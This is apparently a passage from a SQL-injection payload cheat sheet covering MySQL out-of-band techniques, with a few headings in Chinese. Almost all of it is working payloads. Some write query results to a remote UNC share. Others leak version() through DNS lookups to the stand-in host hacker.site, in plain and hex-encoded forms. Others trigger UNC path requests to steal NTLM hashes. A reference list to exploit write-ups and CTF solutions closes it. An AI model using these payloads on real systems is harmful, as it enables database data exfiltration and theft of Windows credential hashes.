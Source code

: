 
## MYSQL Out of band

```powershell
select @@version into outfile '\\\\192.168.0.100\\temp\\out.txt';
select @@version into dumpfile '\\\\192.168.0.100\\temp\\out.txt
```

### DNS exfiltration
#### 路径中必须包含具体文件，以下sql不能执行。

```sql
select load_file(concat('\\\\',version(),'.hacker.site'));
```
#### 可成功执行
```sql
select load_file(concat('\\\\',version(),'.hacker.site\\a.txt'));
select load_file(concat(0x5c5c5c5c,version(),0x2e6861636b65722e736974655c5c612e747874))
```

### UNC Path - NTLM hash stealing

```sql
select load_file('\\\\error\\abc');
select load_file(0x5c5c5c5c6572726f725c5c616263);
select 'osanda' into dumpfile '\\\\error\\abc';
select 'osanda' into outfile '\\\\error\\abc';
load data infile '\\\\error\\abc' into table database.table_name;
```

## References

- [MySQL Out of Band Hacking - @OsandaMalith](https://www.exploit-db.com/docs/english/41273-mysql-out-of-band-hacking.pdf)
- [[Sqli] Extracting data without knowing columns names - Ahmed Sultan @0x4148](https://blog.redforce.io/sqli-extracting-data-without-knowing-columns-names/)
- [Help по MySql инъекциям - rdot.org](https://rdot.org/forum/showpost.php?p=114&postcount=1)
- [SQL Truncation Attack - Warlock](https://resources.infosecinstitute.com/sql-truncation-attack/)
- [HackerOne @ajxchapman 50m-ctf writeup - Alex Chapman @ajxchapman](https://hackerone.com/reports/508123)
- [SQL Wiki - netspi](https://sqlwiki.netspi.com/injectionTypes/errorBased)
- [ekoparty web_100 - 2016/10/26 - p4-team](https://github.com/p4-team/ctf/tree/master/2016-10-26-ekoparty/web_100)
- [Websec - MySQL - Roberto Salgado - May 29, 2013.](https://websec.ca/kb/sql_injection#MySQL_Default_Databases)
